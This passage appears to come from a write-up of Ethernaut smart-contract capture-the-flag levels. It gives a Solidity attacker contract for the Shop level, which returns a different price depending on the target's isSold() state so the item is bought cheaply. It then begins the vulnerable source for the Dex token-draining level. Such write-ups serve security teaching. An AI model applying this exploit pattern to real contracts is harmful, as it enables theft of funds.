 This challenge is similar to `Elevator` challenge, where we need to return different results. But here the call function is of `view` visibility. So we cannot use the help of a variable. But we could return different values based on the `isSold` parameter of the contract.

> #### Solution:
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface shop {
>     function isSold() external view returns(bool);
>     function buy() external;
> }
> 
> contract buyer {
>     shop s;
> 
>     constructor(address _instance) public{
>         s = shop(_instance);
>     }
> 
>     function callBuy() public {
>         s.buy();
>     }
> 
>     function price() external view returns (uint) {
>         if (s.isSold()) {
>             return 50;
>         }
>         return 101;
>     }
> }
> ```

<hr>

## 22 Dex
In this level we have to drain at least 1 of 2 tokens.

#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract Dex is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
```